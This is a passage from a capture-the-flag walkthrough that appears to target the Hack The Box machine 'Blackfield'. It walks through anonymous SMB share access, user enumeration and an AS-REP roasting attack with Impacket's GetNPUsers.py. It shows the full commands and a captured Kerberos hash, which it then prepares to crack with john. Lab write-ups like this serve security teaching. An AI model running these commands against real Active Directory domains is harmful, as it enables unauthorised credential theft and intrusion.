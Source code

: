 A full port scan also reveals that port 5985 is open, which allows remote credentialed access with `WinRM 2.0 (Microsoft Windows Remote Management)`. Next, let's try to enumerate some of the available services for more information.

```
$ enum4linux 10.10.10.192
```

`enum4linux`, a tool to enumerate Windows or Samba systems, yields little. Let's see if any shares are viewable without credentials.

![](images/smb-shares.png)

Success. Trying each one, it looks like we can access the `profiles$` share.

```
$ smbclient \\\\10.10.10.192\\profiles$
```

This reveals a lot of user directories, none of which are accessible. This does, however, give us some credentials to start enumerating. We can use a tool from [Impacket](https://github.com/SecureAuthCorp/impacket) which will check to see if any users have the property "Do not require Kerberos preauthentication" set (`UF_DONT_REQUIRE_PREAUTH`). If this is the case, we will receive a hash.

This is a subset of a process called "kerberoasting", which is described in more detail in [this article](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/). Let's grab all the usernames and save them into a list.

```
$ GetNPUsers.py -dc-ip 10.10.10.192 BLACKFIELD.LOCAL/ -usersfile users -format hashcat -outputfile user.hash
[...]
$krb5asrep$23$support@BLACKFIELD.LOCAL:03fcde2dba3e2be20f5f7671f28a7200$cfc16761e1295b96b10714ee0424df3e1df623d73e606031e5787993565bcbadd2a2228e541aedd208d66e2f185e491306b0aabb9d43b99bc4e86d4370d6fd819f5fa9b11ccd0b07084347f7d854e129b64819de43f9e4ed751e32d339af4dc91d30a4a9fc3d32fa81fff5cb6a0abaf024c0402f47f53f228e280a8867cd609f9abb8b583fe03eade58eb980a56996e6093e04cdd20b0eb82c405d02ec9b18c491e304dce940b5a3460f4c02e4c72cf0250806230bd00c31d4588c2dd985ed5a85794aa3f1413a26c941895dedeefd33164f9f620cd54ccacbe65dfe37c6ec394249d8b2212db977f8026c54e8be9f51e3a13632
[...]
```

We receive a hash for the `support` user. We also can see that the users `audit2020` and `svc_backup` are still active accounts. Lets use `john` to see if we can crack the hash and receive a password.
